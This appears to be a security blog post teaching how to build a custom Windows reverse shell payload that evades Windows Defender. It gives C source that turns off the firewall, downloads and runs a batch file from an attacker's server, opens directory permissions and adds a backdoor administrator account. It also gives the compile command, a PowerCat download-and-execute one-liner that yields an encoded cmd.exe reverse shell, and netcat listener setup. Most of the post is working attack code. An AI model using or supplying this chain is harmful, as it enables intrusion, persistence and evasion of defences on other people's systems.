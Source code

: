 ```yaml
---
layout: post
title: "Creating Customized Windows Reverse Shell Payloads"
author: "joelczk"
tags: Vulns
excerpt_separator: <!--more-->
---
```

A simple and quick guide to generating Windows reverse shell payloads ....
<!--more-->

## Introduction
More often that not whenever we are able to exploit a remote code execution vulnerability on a vulnerable Windows machine, we would be faced with the problem that we 
are unable to upload our reverse shell payloads onto the target server. There are a few causes of this scenario:
- Windows Defender software detected the payload as malicious and quarantined and/or removed the payload
- Firewall that filters suspicious outgoing connections
- Threat monitoring/detection software that detects and removes the payload.

One way of bypassing such restrictions would be to generate reverse shell payloads using ```msfvenom```. However, such a bypass might not be viable in all cases as ```msfvenom``` payloads are payloads with known signatures and so, these payloads would often be detected and removed even before it can be executed. As such, creating our own customized payloads are essential in such cases. 

In this article, we will be looking into creating a reverse shell payload that can bypass Windows Defender software and switch off the firewall. At the same time, the
payload will also be able to create a new user that has the permissions to rdp into the remote Windows server.

_NOTE: Some of the permissions can only be exploited if the target user of the vulnerable Windows server is a SYSTEM user (i.e. ```NT AUTHORITY/SYSTEM```)_

## Creating the payload
To start off, we will have to create a main payload as shown below. But first, let us go over what the payload does:
- The first ```system``` command disables the firewall which bypasses the filtering of suspicious network traffic by the firewall
- The second ```system``` command downloads the exploit script (```payload.bat```) from our local web server and saves it to C:\Windows\Tasks\payload.bat. The reason why we did not use the temp directory is because this directory is often heavily monitored and the payloads are often removed even before they can be executed
- The third ```system``` command serves as a sanity check to check if the script is executing correctly. If it is executing correctly, we should see ICMP connections in wireshark when we filter for ICMP
- The fourth ```system``` commands executes our payload.bat using the ```START``` command. The reason why this was done was to account for circumstances where powershell.exe was removed as a mitigation mechanism and we are unable to execute the reverse shell connections from ```powershell.exe``` or ```cmd.exe```
- The fifth ```system``` command grants access to the C:/Windows/Tasks directory to all the users so that any user can spawn and execute the reverse shell connection
- The sixth and seventh ```system``` command creates a new user and adds the new user to the ```administrators``` group respective. The main purpose is to create a new user with Administrator privileges that is able to rdp into the remote vulnerable server. However, this can only work if port 3389 is open

```c
#include <stdlib.h>
int main ()
{
    int i;
    i = system ("netsh advfirewall set allprofiles state off");
    i = system ("powershell.exe -c (New-Object System.Net.Webclient).DownloadFile('http://{WEB_HOST}:{WEB_PORT}/payload.bat','C:\\Windows\\Tasks\\payload.bat')");
    i = system ("ping -n 1 host");
    i = system ("START /B c:\\Windows\\Tasks\\payload.bat");
    i = system ("icacls c:\\Windows\\Tasks\\* /c /t /grant everyone:f");
    // Creates new user and add them to administrators group
    i = system ("cmd /c net user {user} {password} /add");
    i = system ("cmd /c net localgroup administrators {user} /add");
    return 0;
}
```

Next, we will have to compile the C code into a Windows executable. This can be easily achieved using ```i686-w64-mingw32-gcc```

```
/usr/bin/i686-w64-mingw32-gcc payload.c -o payload.exe
```

Afterwards, we will be using [PowerCat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to generate an encoded reverse shell payload. This is done to bypass Windows Defender software or potential threat monitoring softwares that might pick up reverse shell connections. PowerCat is a powershell script that can mimick some capabilities of NetCat to spawn a reverse shell connection. 

In the command below, we are using Kali's ```pwsh``` module to download the ```powercat.ps1``` script and executing it to create an encoded payload that can spawn a reverse shell connection and saving it to our exploit file. The functions of the payload that we are generating is similiar to using ```nc.exe -e cmd.exe {LHOST} {LPORT}```

```
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > $EXPLOIT_FILE
```

Lastly, we will create our ```payload.bat``` script. This ```payload.bat``` script will then execute the command ```(New-Object System.Net.Webclient).DownloadString('http://{WEB_HOST}:{WEB_PORT}/{EXPLOIT_FILE}')``` , which in turn downloads our exploit file containing the encoded payload that we have created earlier, from our local file server and creates the reverse shell connection

```
START /B powershell -c $code=(New-Object System.Net.Webclient).DownloadString('http://{WEB_HOST}:{WEB_PORT}/{EXPLOIT_FILE}');iex 'powershell -E $code'
```

## Exploit
To exploit this, we will have to set up a listening web server and a reverse shell listener on our local machine

```
// Sets up listening web server
python3 -m http.server {WEB_PORT}
// Sets up reverse shell listener
nc -nlvp {REV_PORT}
```

Afterwards, executing our ```payload.exe``` binary that we have created earlier will then download the ```payload.bat``` file from our listening web server which in turns spawns a reverse shell connection to our reverse shell listener. And TADA we  have successfully obtained a reverse shell!

## Acknowledgements
The following post(s) were referenced during my research on this topic:
- https://medium.com/@minix9800/exploit-eternal-blue-ms17-010-for-window-7-and-higher-custom-payload-efd9fcc8b623
